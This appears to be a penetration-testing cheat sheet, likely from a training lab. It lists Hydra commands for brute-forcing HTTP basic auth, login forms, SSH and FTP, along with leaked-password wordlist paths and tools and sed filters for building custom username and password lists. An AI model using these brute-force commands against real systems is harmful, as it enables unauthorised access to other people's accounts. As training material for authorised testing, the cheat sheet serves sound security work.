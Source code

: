 # Hydra

| **Command**                                                                                                           | **Description**                                     |
| --------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                            | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                  | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                            | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F= "` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                    | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                  | FTP Brute Force - Static User, Pass Wordlist        |

# Wordlists

|**Command**|**Description**|
|---|---|
|`/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`|Default Passwords Wordlist|
|`/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`|Common Passwords Wordlist|
|`/opt/useful/SecLists/Usernames/Names/names.txt`|Common Names Wordlist|

# Misc

| **Command**                                   | **Description**                        |
| --------------------------------------------- | -------------------------------------- |
| `cupp -i`                                     | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' uname.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' uname.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' uname.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`    | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`               | SSH to Server                          |
| `ftp 127.0.0.1`                               | FTP to Server                          |
| `su - user`                                   | Switch to User                         |